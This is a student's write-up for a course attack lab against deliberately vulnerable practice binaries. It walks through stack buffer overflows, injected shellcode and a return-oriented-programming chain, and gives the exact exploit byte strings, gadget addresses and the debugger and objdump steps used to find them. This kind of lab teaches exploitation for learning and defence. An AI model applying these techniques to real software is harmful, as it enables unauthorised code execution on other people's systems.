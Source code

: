 # CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

## Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

## Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:

> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
>```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS
    ```

## Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters

1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.

2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00 
>```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
```

## Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.

    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump

This finds the entire codespace from the start to the end of the farm.

Using the farm, I made some grep statements to find the patterns that I needed for execution:

    /* popq %rdi, 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58. For me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */

I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:

    401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax

The start of the string I wanted was one byte in, so I added 1 to the address, making my address: d0 1f 40 00 00 00 00 00

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

```C
    /* Cookie: 0x23f306d5 */

    /* Fill buffer to 24 bytes */

    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    /* popq %rdi, 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */
    c6 1f 40 00 00 00 00 00

    /* cookie */
    d5 06 f3 23 00 00 00 00

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */

    /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */

    d0 1f 40 00 00 00 00 00

    /* Ret addr of touch2 */

    f4 1d 40 00 00 00 00 00
```
Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.
